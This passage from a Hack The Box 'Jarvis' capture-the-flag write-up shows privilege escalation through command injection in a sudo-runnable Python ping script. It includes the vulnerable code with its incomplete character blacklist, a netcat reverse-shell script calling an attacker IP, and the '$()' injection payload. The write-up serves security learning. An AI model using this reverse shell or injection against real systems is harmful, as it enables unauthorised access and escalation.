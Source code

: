 ![](/assets/images/htb-writeup-jarvis/met3.png)

### Escalating to user pepper

`/var/www/Admin-Utilities` contains a `simpler.py` script that can be executed as user `pepper` through sudo:

```
www-data@jarvis:~/Admin-Utilities$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

The ping function contains a command injection vulnerability. Because it uses the `os.system` function to execute the ping, we can pass additional parameters to execute commands.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

There's a list of forbidden commands so we can't simply use the semi-colon or ampersand characters to inject commands but the `$()` characters are not filtered.

I've created a small script that's execute a netcat reverse shell into `/dev/shm/shell.sh`:

```sh
#!/bin/sh
nc -e /bin/bash 10.10.14.5 5555
```

I can execute the script by injecting the following payload in `simpler.py`:

```
www-data@jarvis:~$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/dev/shm/shell.sh)
$(/dev/shm/shell.sh)
```
